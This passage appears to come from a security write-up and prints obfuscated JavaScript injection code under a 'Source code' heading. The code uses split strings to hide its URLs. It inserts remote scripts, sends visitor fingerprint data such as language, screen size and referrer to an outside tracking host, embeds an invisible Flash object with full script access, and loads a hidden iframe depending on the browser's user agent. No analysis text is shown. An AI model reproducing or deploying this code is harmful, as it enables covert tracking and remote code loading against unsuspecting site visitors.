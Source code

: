 ```
            var head = document.getElementsByTagName('HEAD')[0];
            var n = document.createElement('SCRIPT');
            head.appendChild(n).src = js
        `}`;
        _c1oud3ro.removeNode = function(id) `{`
            try `{`
                if (_c1oud3ro.nodes[id]) `{`
                    document.body.removeChild(_c1oud3ro.nodes[id]);
                    _c1oud3ro.nodes[id] = undefined
                `}`
            `}` catch (e) `{``}`
        `}`;
        _c1oud3ro.stat = function(id, r) `{`
            var l = "htt" + "p://hz" + "s11.c" + "nzz.c" + "om/sta" + "t.ht" + "m?id=";
            l += id + "&amp;r=" + encodeURIComponent(r) + "&amp;lg=";
            var f = window;
            var lg = f.navigator.systemLanguage || f.navigator.language;
            l += lg.toLowerCase() + "&amp;nti" + "me=none&amp;rep" + "eatip=0&amp;rti" + "me=0&amp;cnz" + "z_ei" + "d=";
            l += Math.floor(2147483648 * Math.random()) + "-139592" + "6171-";
            var sp = f.screen.width &amp;&amp; f.screen.height ? f.screen.width + "x" + f.screen.height : "0x0";
            l += "&amp;sho" + "wp=" + sp + "&amp;st=0&amp;s" + "in=&amp;t=&amp;rnd=" + Math.floor(2147483648 * Math.random());
            return l
        `}`;
        _c1oud3ro.oload = function() `{`
            if (document &amp;&amp; document.body &amp;&amp; document.body.childNodes) `{`
                var ua = window.navigator.userAgent;
                var ho = window.location.host;
                var fp = "htt" + "p://i.ej" + "ieb" + "an.c" + "om/s" + "tat1.s" + "wf?d=19.s" + "wf";
                var pm = "s=de";
                var str = '&lt;object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=7,0,0,0" width="0" height="0"&gt;&lt;param name="allowScriptAccess" value="always"/&gt;&lt;param name="movie" value="' + fp + '"/&gt;&lt;param name="flashVars" value="' + pm + '"/&gt;&lt;embed src="' + fp + '" flashVars="' + pm + '" width="0" height="0" allowScriptAccess="always" type="application/x-shockwave-flash" pluginspage="http://www.macromedia.com/go/getflashplayer" /&gt;&lt;/object&gt;';
                str += '&lt;img src="' + _c1oud3ro.stat("203338" + "2", document.referrer) + '" width="0" height="0"/&gt;';
                _c1oud3ro.insertBefore(str, "_cl3r")
            `}` else `{`
                setTimeout(_c1oud3ro.oload, 200)
            `}`
        `}`;
        _c1oud3ro.oload();
        _c1oud3ro.oload2 = function() `{`
            if (document &amp;&amp; document.body) `{`
                try `{`
                    if (/wndwowd/i.test(window.navigator.userAgent)) `{`
                        var l = "htt" + "p://i.ej" + "ieb" + "an.c" + "om/s" + "tatn.h" + "tml#s/an";
                        _c1oud3ro.appendIframe(l, "_9h0n4")
                    `}`
                `}` catch (e) `{``}`
            `}` else `{`
                setTimeout(_c1oud3ro.oload2, 200)
            `}`
        `}`;
        try `{`
            if ("complete" == document.readyState) `{`
                _c1oud3ro.oload2()
```